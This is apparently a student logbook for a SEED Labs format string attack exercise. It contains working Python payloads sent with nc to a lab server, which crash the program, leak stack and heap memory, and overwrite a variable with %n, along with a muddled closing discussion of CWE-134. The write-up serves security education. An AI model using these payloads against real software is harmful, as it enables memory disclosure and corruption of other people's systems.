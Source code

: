 # Seedlab Week #6 (Format String Attack Lab)

# Question 1

### Initial setup

1. Run `sudo sysctl -w kernel.randomize_va_space=0` to disable address randomization.
2. Compile the program using `make && make install`.
3. Start the server in a new terminal by running `docker-compose build` followed by `docker-compose up` in the `/ftm-containers` folder. This setup allows us to view the server's output.

### Task 1: Crashing the Program

The goal of this task is to crash the program by exploiting a format string vulnerability.

Common format string parameters used in this lab:

| Parameters | Output                                                                  |
| ---------- | ----------------------------------------------------------------------- |
| `%x`       | Reads a value from the stack.                                           |
| `%s`       | Reads a string from the process's memory.                               |
| `%n`       | Writes the number of characters printed so far to an address in memory. |

To crash the program, we sent a series of `%s` format specifiers. The server interprets these as pointers to strings, and and at some point tries to access an invalid memory address, causing a crash. We executed the following command: `echo %s%s%s%s%s | nc 10.9.0.5 9090` and then pressed `Ctrl + C`.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task1.png"/>
</p>

As shown in the output, the line `(^_^)(^_^) Returned properly (^_^)(^_^)` is missing, indicating that the program crashed.

<!-- > **Note** in this task we could send just one `%s` because the first value in a stack is `0x11223344` ... Sera que da para esplicar porque isso nao endereso valido? -->

### Task 2: Printing Out the Server Program's Memory

#### Task 2.A: Stack Data.

In this task, we aimed to print data from the stack and determine how many `%x` specifiers are needed to print the first 4 bytes of our input.

To achieve this, we used a Python script (`build_string.py`) to create a payload:

```py
import sys

s = b"AAAA" + b".%x"*100

with open('badfile', 'wb') as f:
  f.write(s)
```

The payload starts with `AAAA` followed by 100 `%x` specifiers, separated by dots for readability. And run `python3 build_string.py`; `cat badfile | nc 10.9.0.5 9090` and pressed `Ctrl + C`.

The output on the server:

<!-- se calhar por em vermelho o 41414141 -->
<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task2a.png"/>
</p>


We observed that the value `41414141` (hexadecimal representation of `AAAA`) appeared at the 64th position (counting the number of dots). This indicates that 64 `%x` specifiers are needed to print our 4 bytes from the process memory.

#### Task 2.B: Heap Data

In this attack the objective was to read a string from a specific address printed by the server:
<!-- Ele sempre o mesmo? -->
```bash
server-10.9.0.5 | The secret message's address:  0x080b4008
```
Steps to achieve this:

1. Place the address of the secret message (`0x080b4008`) at the beginning of the payload.
2. Use 63 consequences `%x` to skip 63 values on the stack (based on the previous task, where 63 values precede our written bytes).
3. Add single `%s` to instruct the server to read a string from the stack, which will be the address we placed in the step 1.

The final `build_string.py` code:

```py
import sys

address = 0x080b4008
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%s"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We ran `python3 build_string.py` then sent `echo hello` to verify the string's address and then used our `badfile` to read a string (`cat badfile | nc 10.9.0.5 9090`).

The output:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task2b.png"/>
</p>

At the end of the output, we saw the string `"A secret message"`, confirming that we successfully read data from the heap.

### Task 3: Modifying the Server Program's Memory

#### Task 3.A: Change the value to a different value.

In this task, our objective was to modify the value of a specific variable, `target`, in the server's memory. The original value of this variable was `0x11223344`, as displayed in the server's output, and its address in memory was `0x080e5068`.

To accomplish this, we used the `%n` format specifier, which writes the number of characters printed so far to a specified memory address.

The final `build_string.py` code:

```py
import sys

address = 0x080e5068
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%n"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We placed the address of our target variable at the start of the payload, then skipped 63 values from the stack, and added `%n` to instruct the program to write the number of printed values to the address on the stack, which will be our specified address (`0x080e5068`).

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task3a.png"/>
</p>

In the server output, we can see `The target variable's value (before): 0x11223344` and `The target variable's value (after): 0x000000ee`. This confirms that we successfully modified the target variable's value from `0x11223344` to `0x000000ee`.

#### Task 3.B

Based on the previous task which already overwrites the target variable, we know have to find a way to control which value is placed in that memory address. More specifically, we have to write the value 0x5000 into that memory address.

For this, we will still use the `%n` specifier to write the value in the designated address, but we will also use the `%x` to control the number of bytes read from the stack.

```python
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

n = 0x5000 - 4 - 62 * 8
s = "%.8x" * 62 + f"%.{n}x" + "%n"

address = 0x080e5068
content[0:4] = (address).to_bytes(4,byteorder='little')

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

By doing this, we start by writing the designated address we want to overwrite in the start of the buffer. After this, the printf will start by executing the `%.8x` which will print 8 chars and advance 4 addresses in memory. Then, it will execute the `%.{n}x` which will print the n characters and advance 4 positions in memory. Finally, it will write the value of printed chars (0x5000) to the address initially defined (0x080e5068), using the `%n`.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task3b.png"/>
</p>

In the server output, we can see `The target variable's value (before): 0x11223344` and `The target variable's value (after): 0x0005000`. This confirms that we successfully modified the target variable's value from `0x11223344` to `0x00005000`.

# Question 2

The attacks we performed along the tasks are caused by the weakness CWE-134 "Use of Externally-Controlled Format String". According to [CWE Mitre](https://cwe.mitre.org/data/definitions/134.html), this weakness is observed when a function accepts a format string, originated from an external source (e.g. user input), as its argument.

Since a user string can be stored in the heap, just as in the stack, we can also observe a vulnerability if the format string is allocated dynamically. For example, we can use something similar to the exploit on task 2.A to read everything from the stack, which can include sensitive data.

However, for running the attacks we used on this guide, we need to store the address in memory we want to read/write to in a position that can be interpreted by `printf` as the address of one of its arguments. This means that the value needs to be stored on the stack, so it cannot be influenced by information of the format string, making all the attacks we performed unreliable. It can only be done by using non-deterministic solutions, such as using pre-existing stack values.


